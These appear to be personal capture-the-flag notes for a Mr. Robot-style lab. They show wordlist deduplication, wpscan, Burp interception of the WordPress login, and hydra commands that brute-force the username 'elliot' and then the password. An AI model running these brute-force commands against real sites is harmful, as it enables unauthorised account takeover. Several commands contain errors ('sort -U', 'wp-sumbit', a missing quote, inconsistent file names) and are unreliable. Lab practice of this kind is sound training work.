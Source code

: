 		cat head [fsocity.dic]

to see what the first few lines of text were

		wc [fsocity.dic]

word count, it's huge [that's what she said]

		cat [fsocity.dic] | sort -U  > [sorted_fsocity.dic]  

sorts all unique into a seperate file

		wc [sorted_fsocity.dic]

word count, significantly lower

		wpscan [target-ipaddress]

find information partaining to word press

Burp Suite
used integrated browser proxy, intercepted the login action on the wp-login page.
shows that it's a post form(top), log=username and pwd=password(bottom)

Brute force for username and password: 

		hydra -L [sorted_fsocity.dic] -p unkown [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=Invalid Username
	
-L list file upload

-p unkown sets the password as uknown 

http-post-form, because it shown on burp as a post form

/wp-login.php, post form location

log and pass set as -L and -p, log and pass can be found on the burp 

interception as being identifiers

F=Invalid Username sets fail point that is referenced in the error message when a wrong username is entered


USERNAME IS ELLIOT


Option 1:

		hydra -l elliot -P [sorted_fsociety.dic]  [target-ipaddress] http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-sumbit=Log+In:F=is incorrect'

-l elliot, lower case to indicate exact user

-P password file

http-post-form, because it shown on burp as a post form

/wp-login.php, post form location

log and pass set as -L and -p, log and pass can be found on the burp 

interception as being identifiers
